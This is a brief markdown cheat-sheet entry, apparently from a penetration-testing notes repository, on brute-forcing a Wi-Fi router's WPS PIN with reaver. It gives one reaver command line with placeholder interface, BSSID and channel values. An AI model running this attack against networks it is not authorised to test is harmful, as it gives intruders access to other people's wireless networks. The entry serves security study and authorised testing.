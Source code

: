 # WPS PIN Brute force attack

## Tools: reaver, aircrack suite

## Requirements: Enumerate for potential targets. Check the enumeration chapter in this repo.

### Commands:

 - reaver -i MONITOR_MODE_NIC -b BSSID -vv -c CHANNEL_NUM
